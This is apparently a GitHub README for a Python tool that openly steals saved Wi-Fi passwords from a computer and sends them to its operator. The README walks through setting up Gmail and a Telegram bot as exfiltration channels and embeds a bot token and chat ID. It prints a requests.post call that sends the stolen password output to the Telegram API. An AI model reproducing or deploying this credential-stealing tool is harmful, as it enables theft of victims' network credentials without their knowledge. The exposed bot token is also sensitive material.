

<h1 align='center'>Python Steal Saved Wifi Password</h1>
<p align='center'>It steals the remaining wifi passwords saved on the computer written in Python and sends the information via mail or telegram.</p>

<p align='center'>
    
</p>


### Operating Instructions

#### 1) Send Email
to be able to send an email<br/>

>1)open your gmail account<br/>
>2)go https://myaccount.google.com/<br/>
>3)Activate "Less secure app access"<br/>
[](https://www.youtube.com/watch?v=FVi-m1qmJD0 "Send Email]")

#### 2) Send Telegram (api) Message
Telegram api    (https://core.telegram.org/bots/api)<br/>

>1)open telegram<br/>
>2)search BotFather<br/>
>3)/newbot<br/>
>4)Choose a username for your bot (ransom0wareusername_bot)<br/>

    Use this token to access the HTTP API:
    3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg

Chat Id<br/>

>1)search Json Dump Bot<br/>
>2)/start<br/>
>3)telegramapi<br/>

    "from": {
            "id": 3213112048, your chat_id

        Send Message Example:

        requests.post("https://api.telegram.org/bot3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg/sendMessage",
                    data={"chat_id": "3213112048", "text": f"Node: {node} Release: {release} \nOutput: {str(password)}"})

        requests.post("https://api.telegram.org/bot<your_telegram_api>/sendMessage",
                    data={"chat_id": "<your_telegram_chat_id>", "text": f"Node: {node} Release: {release} \nOutput: {str(password)}"})

## How to use?
```sh
$ python main.py
```
## YouTube Video
[](https://youtu.be/YKMjdCl9__A "Python Steal Saved Wifi Password
")